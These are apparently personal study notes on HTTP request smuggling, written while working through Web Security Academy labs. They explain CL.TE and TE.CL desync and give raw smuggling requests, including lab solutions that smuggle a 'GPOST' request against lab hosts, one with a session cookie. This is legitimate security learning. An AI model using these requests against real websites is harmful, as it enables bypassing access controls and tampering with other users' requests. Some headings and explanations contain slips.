 ## HTTP Request Smuggling

### Overview
- Interfering with the way a site processes sequences of HTTP requests received from one or more users
- Usually allows bypassing security controls, gaining of unauthorized access, compromising other users 
- Primarily associated with HTTP/1 requests; however, some HTTP/2 vulnerable depending on backend architecture
- Today's web apps usually employ chains of HTTP servers between users and the ultimate logic: users send requests to the frontend server (sometimes called a load balancer or reverse proxy) and this server forwards the request(s) to one or more backend servers. 
- Typically, when the frontend server forwards HTTP requests to the backend server, it sends several requests over the same connection for efficiency and performance. HTTP requests are sent one after another, and the receiving server has to determine where one request ends and the next one begins: 

![User Requests from Frontend to Backend](Photos/forwarding-http-requests-to-back-end-server.svg)

- An attacker can try and trick the backend server. For example, an attacker might send an ambiguous request that gets interpreted differently by the frontend and the backend systems. In this example, the attacker causes part of their frontend request to be interpreted by the backend server as the start of the next request. It is effectively prepended to the next request and can interfere with the way the application processes that request:

![alt text](Photos/smuggling-http-request-to-back-end-server.svg)

### How Does This Happen?

- HTTP/1 specification provides two different ways to specify where a request ends:
    1. `Content-Length` header: Pretty straightforward. Specifies the length of the message body in bytes. 
    2. `Transfer-Encoding` header: Specify that the message body uses chunked encoding. Means that the message body contains one or more chunks of data. Each chunk consists of the chunk size in bytes (expressed in a hexadecimal), followed by a newline, followed by the chunk contents. Terminated with a chunk of size zero. For example, hexadecimal of B is 11 (binary: 1011), so b for q=smuggling.

```
POST /search HTTP/1.1
Host: normal-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

```
POST /search HTTP/1.1
Host: normal-website.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

b
q=smuggling
0
```
- Burp Suite auto unpacks chunked encoding to make messages easier to view and edit. Browsers do not normally use chunked encoding in requests, and it is normally seen only in server responses. 
- Since the HTTP/1 specification provides two different methods for specifying the length of HTTP messages, it is possible for a single message to use both methods at once, such that they conflict with each other. The specification attempts to prevent this problem by stating if both the `Content-Length` and `Tranfer-Encoding` headers are present, then the `Content-Length` header should be ignored. This may be sufficient to avoid ambiguity when only a single server is in play, but not when two or more servers are chained together. In this situation, problems can arise for two reasons:
    1. Some servers do not support the `Transfer-Encoding` header in requests
    2. Some servers that do support the `Transfer-Encoding` header can be induced not to process it if the header is obfuscated in some way
- If the frontend and backend servers behave differently in relation to the (possibly obfuscated) `Transfer-Encoding` header, then they might disagree about the boundaries betwen successive requests, leading to request smuggling vulnerabilities. 
- HTTP/2 end-to-end is inherently immune to request smuggling as it introduces a single, robust mechanism for specifying the length of a request. There is no way for an attacker to introduce the required ambiguity. HOWEVER, many websites have HTTP/2 frontend, but deploy backend infrastructure that only supports HTTP/1. This means frontend has to translate the requests it receives to HTTP/1. Known as HTTP downgrading - more on this in more advanced request smuggling. 

### How to Perform Request Smuggling
- Classic request smuggling attacks involve placing both the `Content-Length` header and the `Transfer-Encoding` header into a single HTTP/1 request and manipulating these so that the frontend and the backend servers process the request differently. This is done in different ways depending on the behavior of the two servers:
    - **CL.TE**: The frontend server uses the `Content-Length` header and the backend server uses the `Transfer-Encoding` header. 
    - **TE.CL**: The frontend server uses the `Transfer-Encoding` header and the backend server uses the `Content-Length` header.
    - **TE.TE**: The frontend and the backend servers both support the `Transfer-Encoding` header, but one of the servers can be induced not the process it by obfuscating the header in some way. 
- These are only possible, as mentioned, using HTTP/1 requests. Browsers and other clients, including Burp, use HTTP/2 by default to communicate with servers that explicitly advertise support for it during the TLS handshake. When testing sites with HTTP/2 support, you will need to manually swith protocols in Burp Repeater. You can do this in the `Request attributes` section of the Inspector panel. 

### CL.TE Vulnerabilities
- The frontend server uses the `Content-Length` header and the backend server uses the `Transfer-Encoding` header. Perform a simple HTTP request smuggling attack as follows in the code block below. The frontend processes the `Content-Length` header and determines the request body is 13 bytres long, up to the end of `SMUGGLED`. Request is forwarded to backend server. 
- Backend server processes the `Transfer-Encoding` header and treats the message body as using chunked encoding. It processes the first chunk, stated to be zero length, and so is treated as terminating the request. The following bytes, SMUGGLED, are left unprocessed, and the backend server treats them as the start of the next request in the sequence. 

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

#### Lab: HTTP Request Smuggling, Basic CL.TE Vulnerability
- Involves a frontend and backend, and the frontend does not support chunked encoding. The frontend server rejects requests that aren't using GET or POST method. To solve, smuggle a request to the back-end server so that the next request processed by the backend server appears to use the method `GPOST`. 
- So in this case, the frontend server uses the `Content-Length` header and the backend server uses `Transfer-Encoding`. We are saying the content does not include that extra stuff after the 0 ... 

```
POST /post/comment HTTP/1.1
Host: 0a6a0085043d4777a0b4b6c700920024.web-security-academy.net
Cookie: session=d4CNLJNIRZeA47ItYi9ktIm1ovuiqVdb
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:142.0) Gecko/20100101 Firefox/142.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a6a0085043d4777a0b4b6c700920024.web-security-academy.net/post?postId=9
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
X-Pwnfox-Color: yellow
Priority: u=0, i
Content-Length: 1
Transfer-Encoding: chunked

0

G
```

![alt text](Photos/image.png)

### CL.TE Vulnerabilities
- So, here, the frontend is using the `Transfer-Encoding` header and the backend server is using the `Content-Length` header. Perform simple HTTP request smugging with the following: 

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0
```

#### Lab: HTTP Request Smugging, Basic TE.CL Vulnerability
- I had trouble making this work manually through Burp Repeater; I solved the lab using their Smuggler extension. Attempting to send the request twice did not result in the expected GPOST error. 
- Starting from the recon phase, I noticed that when I added `Transfer-Encoding: chunked`, the request was timing out/taking a while. When I added in a 0 to indicate the end of the chunk, I received a 200 OK...Adding a `Content-Length`

```
POST / HTTP/2
Host: 0aef000d03ef0a09810d4d8100cb00e8.web-security-academy.net
Test-Header: 18
Content-Type: application/x-www-form-urlencoded
Content-Length: 103
Transfer-Encoding: chunked
Connection: keep-alive

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```